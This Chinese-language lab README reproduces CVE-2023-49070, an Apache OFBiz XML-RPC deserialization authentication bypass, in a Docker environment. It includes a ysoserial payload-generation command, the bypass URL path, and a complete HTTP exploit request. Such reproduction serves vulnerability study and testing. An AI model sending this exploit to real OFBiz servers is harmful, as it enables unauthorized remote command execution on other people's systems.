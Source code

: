 # Apache OfBiz 反序列化命令执行漏洞（CVE-2023-49070）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在Apache OFBiz 17.12.03版本及以前存在一处XMLRPC导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz官方于18.12.10中彻底删除xmlrpc接口修复该漏洞。

参考链接：

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.09服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

漏洞复现方式与[CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496)相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

使用CVE-2020-9496中的复现方法发送数据包，可见已经无法成功进入XMLRPC的解析流程：

![](2.png)

把Path修改成`/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y`即可绕过限制：

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](3.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](4.png)
